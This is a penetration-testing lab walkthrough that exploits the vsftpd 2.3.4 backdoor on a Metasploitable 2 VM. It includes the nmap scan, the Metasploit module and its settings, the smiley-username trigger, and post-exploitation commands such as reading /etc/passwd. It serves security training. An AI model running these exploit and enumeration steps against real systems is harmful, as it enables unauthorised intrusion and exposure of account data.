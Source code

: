 # ✅ Lab 05A: FTP Exploitation - vsftpd Backdoor (Metasploit)

## 🎯 Objective

Exploit a known backdoor vulnerability in vsftpd 2.3.4 using Metasploit, and perform basic post-exploitation.

## 🛠 Tools Used

- Metasploit Framework
- Nmap
- Metasploitable 2 (target VM)

## 🔄 Task Summary

- Identify open FTP port.
- Exploit vsftpd backdoor using Metasploit.
- Access shell and enumerate the system.

## 🧪 Steps

### 🔹 Step 1: Scan target for FTP service

```bash
nmap 192.168.1.100 -p 21
```

### 🔹 Step 2: Launch Metasploit

```bash
msfconsole
```

### 🔹 Step 3: Search and use the vsftpd exploit

```bash
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.100
set RPORT 21
exploit
```

### 🔹 Step 4: Post-exploitation enumeration

```bash
whoami
id
uname -a
cat /etc/passwd
```

## 👀 Observations

- The vsftpd vulnerability creates a shell on port 6200 upon login attempt with a `:)` in the username.
- Successful exploitation grants shell access.
- Useful for understanding real-world insecure service deployment.

## ✅ Expected Output

- Shell session opened on the remote server.
- Ability to execute commands and enumerate target system information.
